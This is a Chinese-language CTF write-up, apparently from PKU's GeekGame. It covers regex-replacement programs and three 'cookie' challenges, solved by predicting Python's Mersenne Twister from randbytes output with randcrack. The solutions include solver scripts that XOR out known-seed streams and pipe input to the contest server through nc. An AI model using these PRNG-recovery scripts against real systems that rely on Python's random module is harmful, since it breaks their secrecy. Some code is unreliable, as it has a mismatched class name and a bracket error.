把【(\d*?)6\+000】替换成【\g<1>700】喵
把【(\d*?)7\+000】替换成【\g<1>800】喵
把【(\d*?)8\+000】替换成【\g<1>900】喵
把【(\d*?)9\+000】替换成【\g<1>+0000】喵
把【^\+0000】替换成【1000】喵
把【(\d*?)0\+0000】替换成【\g<1>1000】喵
把【(\d*?)1\+0000】替换成【\g<1>2000】喵
把【(\d*?)2\+0000】替换成【\g<1>3000】喵
把【(\d*?)3\+0000】替换成【\g<1>4000】喵
把【(\d*?)4\+0000】替换成【\g<1>5000】喵
把【(\d*?)5\+0000】替换成【\g<1>6000】喵
把【(\d*?)6\+0000】替换成【\g<1>7000】喵
把【(\d*?)7\+0000】替换成【\g<1>8000】喵
把【(\d*?)8\+0000】替换成【\g<1>9000】喵
把【(\d*?)9\+0000】替换成【\g<1>+00000】喵
如果看到【👆】就跳转到【插数】喵
把【👇】替换成【 】喵
谢谢喵
```

### 排序喵

怎么比较长短和交换次序是关键，这里不需要计算具体数值，因此可以用`+0+0+0`来计数。我把换行符用🤡替代以获得更直观的结果。用睡眠排序的思想，循环去掉`+0`，最先出现连续字符👇🤡的就是最短的，用一个🙏来划分已完成排序区域和比较区域，每次把最短的一行插到这个🙏前面即可

```textile
把【0】替换成【0️⃣】喵
把【$】替换成【\n】喵
重复把【\n\n】替换成【\n】喵
把【\n】替换成【🤡】喵
把【([^🤡])】替换成【\1👆】喵
插数：
把【(.*?)👆(.*?)🤡】替换成【\g<1>👇\g<2>+0🤡】喵
如果看到【👆】就跳转到【插数】喵
把【^】替换成【🙏🤡】喵
递减：
把【👇\+0】替换成【👇】喵
重复把【🙏(.*?)🤡([^🤡]*)👇🤡】替换成【\g<2>\n🙏\g<1>🤡】喵
如果看到【👇\+0】就跳转到【递减】喵
把【👇|🙏|🤡】替换成【】喵
把【0️⃣】替换成【0】喵
谢谢喵
```

## 小章鱼的曲奇

### Smol Cookie

阅读源码，程序用 2500 字节长度的`\0`拼接smol_cookie，再和等长的随机字节异或得到输出。因为前 2500 个字节为`\0`，因此异或得到的就是随机字节本身，这个大小是 20000 bit，刚好够预测随机数，可以使用 randcrack 模块或者 [kmyk/mersenne-twister-predictor](https://github.com/kmyk/mersenne-twister-predictor)

不过这俩只能接受`getrandbits(32)`的输入，源码中使用的是`randbytes(n)`，因此需要进行转换。randbytes 的本质是就是 getrandbits，只是字节序列有些不同

```python
import random
random.seed(1)
print(hex(random.getrandbits(32)))
# 0x2265b1f5
print(hex(random.getrandbits(32)))
random.seed(1)
# 0x91b7584a
print(random.randbytes(12).hex())
# 0xf5b165224a58b791
```

参考：

- [[CTF/randcrack]python随机数预测模块分析及改进方案-CSDN博客](https://blog.csdn.net/qq_42557115/article/details/128228201)

- [TFCCTF 2022 - Crypto - zakigeyan](https://zakigeyan.github.io/tfcctf-2022/)

代码：

```python
from randcrack import RandomCrack
from collections import deque

cipher = ''  # 填入密文

def hex_to_int(hex_string, m, n):
    # 获得 hex 串的 int值
    hex_substring = hex_string[m:n]
    decimal_value = int(hex_substring, 16)
    return decimal_value

def reverse_hex_by_32_bits(hex_string):
    # 每 32 位颠倒一次字节序
    if len(hex_string) % 8 != 0:
        print("not fit")
        return
    j = 0
    tmp = deque()
    long_str = ""
    while True:
        if (j * 8 == len(hex_string)):
            break
        tmp.clear()
        for i in range(4):
            tmp.appendleft(hex_string[j * 8 + i * 2:j * 8 + i * 2 + 2])
        short_str = "".join(tmp)
        long_str += short_str
        j += 1

    return long_str

def xor_hex_strings(hex_str1, hex_str2):
    # 对 hex 按位异或
    if len(hex_str1) != len(hex_str2):
        return "输入字符串长度不相同"

    # 使用 zip 将两个字符串逐字符配对并进行按位异或操作
    xor_result = [hex(int(x, 16) ^ int(y, 16))[2:] for x, y in zip(hex_str1, hex_str2)]
    result_hex = ''.join(xor_result)
    return result_hex


use = reverse_hex_by_32_bits(cipher[:5000])
rc = RandCrack()
for i in range(624):
    x = hex_to_int(use, i * 8, i * 8 + 8)
    rc.submit(x)

y = hex_to_int(use, 4992, 5000)
if y == rc.predict_getrandbits(32):
    print("Match!")

key = ""
for _ in range(8):
    short_key = hex(rc.predict_getrandbits(32))[2:].zfill(8)
    key += short_key
key = reverse_hex_by_32_bits(key)[:58]
result = xor_hex_strings(cipher[5000:5058], key)
print(result)
# 得到 flag hex
```

### Big Cookie

程序创建了三个伪随机数生成器对象 `void1`、`void2` 和 `void3`，分别使用了`seed1`、`seed2`（用户输入）和一个新的随机种子，其中 void1 和 void2 的种子都是已知的

再随机生成一个 entropy 变量（22 bit）`void1`和`void2`调用`randbytes`生成 entropy 长度的字节——我原以为这里的偏移会对结果有影响，需要我们枚举 entropy 变量，但尝试后发现并不需要

然后依然是将 2500 字节`\0`拼接到 big_cookie 前，再调用`void1`，`void2`和`void3`生成`randbytes` 2500+ 随机字节，再分别与 big_cookie 按位异或

```python
from randcrack import RandCrack
from random import Random
from collections import deque
import secrets

cipher = '' # 填入密文

def reverse_hex_by_32_bits(hex_string):
    if len(hex_string) % 8 != 0:
        print("not fit")
        return
    j = 0
    tmp = deque()
    long_str = ""
    while True:
        if (j * 8 == len(hex_string)):
            break
        tmp.clear()
        for i in range(4):
            tmp.appendleft(hex_string[j * 8 + i * 2:j * 8 + i * 2 + 2])
        short_str = "".join(tmp)
        long_str += short_str
        j += 1

    return long_str

def xor_arrays(a, b, *args):
    # 对 binary 按位异或
    if args:
        return xor_arrays(a, xor_arrays(b, *args))
    return bytes([x ^ y for x, y in zip(a, b])

def xor_hex_strings(hex_str1, hex_str2):
    # 对 hex 按位异或
    if len(hex_str1) != len(hex_str2):
        return "输入字符串长度不相同"

    # 使用 zip 将两个字符串逐字符配对并进行按位异或操作
    xor_result = [hex(int(x, 16) ^ int(y, 16))[2:] for x, y in zip(hex_str1, hex_str2)]
    result_hex = ''.join(xor_result)
    return result_hex

def hex_to_int(hex_string, m, n):
    hex_substring = hex_string[m:n]  # 从索引 m 到 n 的子字符串
    decimal_value = int(hex_substring, 16)  # 将子字符串解释为十六进制并转换为十进制整数
    return decimal_value

seed1 = '2da5129badec89f1e34e713215d908ff0c79951538e2906307726e9515011ca9'  # 题目告诉
seed2 = 1

seed1 = int(seed1, 16)

void1 = Random(seed1)
void2 = Random(seed2)

entropy = secrets.randbits(22)
# print(entropy)

for i in range(1):
    # 原本设置的循环大小是 4194303，但没想到第一遍就出了
    void1.randbytes(i)
    void2.randbytes(i)
    rc = RandCrack()
    for j in range(624):
        s = cipher[j * 8: j * 8 + 8]
        s = bytes.fromhex(s)
        a = void1.randbytes(4)
        b = void2.randbytes(4)
        c = xor_arrays(s, a, b)
        x = reverse_hex_by_32_bits(c.hex())
        # print(x)
        x = int(x, 16)
        rc.submit(x)

    rc.predict_getrandbits(32)
    void1.randbytes(4)
    void2.randbytes(4)

    # print(x)
    keya = ""
    keyb = ""
    keyc = ""
    for _ in range(8):
        keyc += hex(rc.predict_getrandbits(32))[2:].zfill(8)
    keyc = bytes.fromhex(reverse_hex_by_32_bits(keyc))

    s = cipher[5000: 5064]
    s = bytes.fromhex(s)
    a = void1.randbytes(32)
    b = void2.randbytes(32)
    mix = xor_arrays(s, a, b, keyc)
    print(mix.hex())

# 666c61677b4372416654316e675f734565645f63416e5f62335f665555756e7d
# flag{CrAfT1ng_sEed_cAn_b3_fUUun}
```

### SUPA BIG COOKIE

先生成 100 个 256 位的随机种子，然后我们自己输入 100 个用逗号分隔的种子

直接把程序的输出再输入进去即可，但是粘贴板每次输入不全，没办法只能拿 python 写了个 subprocess 对接 nc：

```python
import subprocess
import re

# 启动 nc 进程，建立持续连接
p = subprocess.Popen(["nc", "prob08.geekgame.pku.edu.cn", "10008"], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)

p.stdin.write("Your Token\n")
p.stdin.flush()

# 使用循环来持续交互
for i in range(3):
    a = ""
    for line in iter(p.stdout.readline, '\n'):
        a += line.strip()
        print(line.strip())
    if i == 0:
        for _ in range(4):
            # 程序会输出多个换行，因此手动读出
            print(p.stdout.readline())
    if i == 2:
        break
    if i == 0:
        user_input = input("Enter your message: ")  # 获取用户输入
        p.stdin.write(user_input + "\n")  # 将用户输入发送给 nc 进程
        p.stdin.flush()
    else:
        pattern = r'(.*)<(.*)>(.*)'
        result = re.sub(pattern, r'\2', a)
        print(result)
        p.stdin.write(result + "\n")
        p.stdin.flush()
```
